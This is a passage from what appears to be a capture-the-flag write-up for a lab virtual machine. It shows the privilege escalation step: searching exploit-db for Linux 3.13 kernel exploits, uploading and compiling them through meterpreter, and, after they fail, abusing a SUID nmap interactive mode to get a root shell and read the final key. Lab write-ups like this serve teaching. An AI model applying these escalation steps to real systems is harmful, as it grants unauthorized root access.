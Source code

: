 So, the last step is the escalation of privilege. I've test two exploit here for linux 3.13:

    $ searchsploit 3.13
    ---
    Linux Kernel 3.13  | exploits/linux/local/33824.c
    Linux Kernel 3.13. | exploits/linux/local/37292.c
    ---

Into msfconsole:

    meterpreter > cd /tmp
    meterpreter > upload /usr/share/exploitdb/exploits/linux/local/33824.c
    meterpreter > upload /usr/share/exploitdb/exploits/linux/local/37292.c

Next, we have to compile and execute these programs.

    $ gcc 33824.c -o test1
    $ gcc 37292.c -o test2
    $ ./test1
    $ ./test2

But the both exploits failed here so after few minutes on google, that vm have an old version of nmap with a special option `--interactive` who give root access.

    $ find / -perm +6000 2> /dev/null | grep nmap
    $ nmap --interative
    $ !sh
    $ cd /root && cat key-3-of-3.txt
    04787ddef27c3dee1ee161b21670b4e4

